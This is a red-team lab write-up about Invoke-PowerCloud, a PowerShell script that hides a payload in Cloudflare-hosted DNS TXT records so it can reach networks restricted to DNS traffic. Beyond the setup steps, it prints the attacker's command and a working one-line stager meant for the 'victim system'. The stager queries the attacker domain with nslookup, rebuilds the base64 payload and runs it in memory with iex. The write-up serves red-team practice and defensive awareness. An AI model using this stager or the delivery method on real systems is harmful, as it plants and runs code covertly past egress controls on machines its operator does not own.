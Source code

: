 ```yaml
---
description: >-
  This lab demos a tool or rather a Powershell script I have written to do what
  the title says.
---
```


# Payload delivery via DNS using Invoke-PowerCloud

## Credits

Rushing to say that the tool [**Invoke-PowerCloud**](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) was heavily inspired by and based on the awesome work that Dominic Chell \([@domchell](https://twitter.com/domchell)\) from [MDSec](https://twitter.com/MDSecLabs) had done with [PowerDNS](https://github.com/mdsecactivebreach/PowerDNS) - go follow them and try out the [tool](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) if you are not doing so yet!

Not only that, I want to thank Dominic for taking time to answer some of my questions I had regarding the PowerDNS, the setup and helping me troubleshoot it as I was having "some" issues getting the payload delivered to the client.

...which eventually led me to Invoke-PowerCloud, so read on.

## What is Invoke-PowerCloud?

[Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) is a script that allows you to deliver a payload using DNS TXT records to an environment that is egress limited to DNS only.

## How is Invoke-PowerCloud different from PowerDNS?

I assume you have read [PowerShell DNS Delivery with PowerDNS](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) which explains how PowerDNS works.

Invoke-PowerCloud works in a similar fashion, except for a couple of key differences, which may simplify the configuration process of your infrastructure to start delivering paylods via DNS.   
  
**With PowerDNS you need:**

* a dedicated linux box with a public IP where you can run PowerDNS so it can act as a DNS NameServer
* you also need multiple domain names to get the nameservers configured properly

**With Invoke-PowerCloud you need:**

* a cloudflare.com account
* a domain name whose DNS management is transferred to cloudflare

## Cloudflare? eh?

The way the tools works is by performing the following high level steps:

* Take the powershell payload file
* Divide the payload file into chunks of 255 bytes
* Create a DNS zone file with DNS TXT records representing each chunk of the payload data retrieved from the previous step in base64 format
* Send the DNS zone file to cloudlfare
* Generate two stagers for use with autoritative NS/non-authoritative NS, that can be then executed on the target system
* Stager can then be executed on the victim system. The stager will recover the base64 chunks from the DNS TXT records and rebuild the original payload
* Payload gets executed in memory
* If you run the tool again to deliver another payload, the previous DNS TXT records will be deleted

## Demo / Execution

### One off Configuration

Remember - you need a cloudflare.com account for this to work. Assuming you have that, you need to edit the script to specify: 

1. your cloudflare API key, defined in the variable `$Global:API_KEY`
2. your cloudflare email address, defined in the variable `$Global:EMAIL`

![](../.gitbook/assets/screenshot-from-2018-10-15-22-11-03%20%281%29.png)

### DNS Management

Secondly, you need to move the domain name which you are going to use for payload delivery to cloudflare. In this demo, I will use a domain I own `redteam.me` which is now managed by cloudflare:

![](../.gitbook/assets/screenshot-from-2018-10-15-22-14-53.png)

Let's confirm redteam.me DNS is managed by cloudflare by issuing:

```text
host -t ns redteam.me
```

![](../.gitbook/assets/screenshot-from-2018-10-15-22-16-20.png)

### Payload

Let's create a simple payload file - it will print a red message to the screen and open up a calc.exe:

{% code-tabs %}
{% code-tabs-item title="payload.txt" %}
```csharp
Write-host -foregroundcolor red "This is our first payload using Invoke-
PowerCloud. As usual, let's pop the calc.exe"; Start-process calc.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

### Good to Go

We are now good to go - issue the below on your attacking system:

```csharp
PS C:\tools\powercloud> . .\powercloud.ps1; Invoke-PowerCloud -FilePath .\payload.txt -Domain redteam.me -Verbose
```

The script will generate two stagers that looks like the one below - it's the code that can be executed on the target system:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
# stager to be launched on the victim system
$b64=""; (1..1) | ForEach-Object { $b64+=(nslookup -q=txt "$_.redteam.me")[-1] }; iex([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String(($b64 -replace('\t|"',"")))))
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-15-22-47-26.png)

The stager then can be executed on the victim system to get the payload delivered:

![](../.gitbook/assets/screenshot-from-2018-10-15-22-47-12.png)

Everything in action can be seen in the below gif:

![](../.gitbook/assets/invoke-powercloud-demo.gif)

## Download

You can download or contribute to Invoke-PowerCloud here:

{% embed url="https://github.com/mantvydasb/powercloud" %}

## References

{% embed url="https://github.com/mdsecactivebreach/PowerDNS" %}

{% embed url="https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/" %}




